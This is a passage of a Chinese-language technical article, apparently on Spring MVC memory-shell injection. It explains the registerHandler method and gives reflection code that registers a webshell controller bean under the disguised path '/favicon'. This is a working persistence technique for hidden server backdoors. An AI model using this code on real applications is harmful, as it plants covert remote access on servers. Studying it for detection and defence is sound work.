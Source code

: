 

#### 方法二：registerHandler

参考上面的 `HandlerMapping` 接口继承关系图，针对使用 `DefaultAnnotationHandlerMapping` 映射器的应用，可以找到它继承的顶层类

```
org.springframework.web.servlet.handler.AbstractUrlHandlerMapping
```

进入查看代码，发现其中有一个`registerHandler` 方法，摘录关键部分如下：

```java
protected void registerHandler(String urlPath, Object handler) throws BeansException, IllegalStateException {
	...
	Object resolvedHandler = handler;
	if (!this.lazyInitHandlers && handler instanceof String) {
		String handlerName = (String)handler;
		if (this.getApplicationContext().isSingleton(handlerName)) {
			resolvedHandler = this.getApplicationContext().getBean(handlerName);
		}
	}
	Object mappedHandler = this.handlerMap.get(urlPath);
	if (mappedHandler != null) {
		if (mappedHandler != resolvedHandler) {
			throw new IllegalStateException("Cannot map " + this.getHandlerDescription(handler) + " to URL path [" + urlPath + "]: There is already " + this.getHandlerDescription(mappedHandler) + " mapped.");
	...
	} else {
		this.handlerMap.put(urlPath, resolvedHandler);
		if (this.logger.isInfoEnabled()) {
			this.logger.info("Mapped URL path [" + urlPath + "] onto " + this.getHandlerDescription(handler));
		}
	}
}
```



该方法接受 `urlPath`参数和 `handler`参数，可以在 `this.getApplicationContext()` 获得的上下文环境中寻找名字为 `handler` 参数值的 `bean`, 将 url 和 controller 实例 bean 注册到 `handlerMap` 中。

相关示例代码和解释如下：

```java
// 1. 在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
// 2. 从当前上下文环境中获得 DefaultAnnotationHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping  dh = context.getBean(org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping.class);
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/favicon", "dynamicController");
```
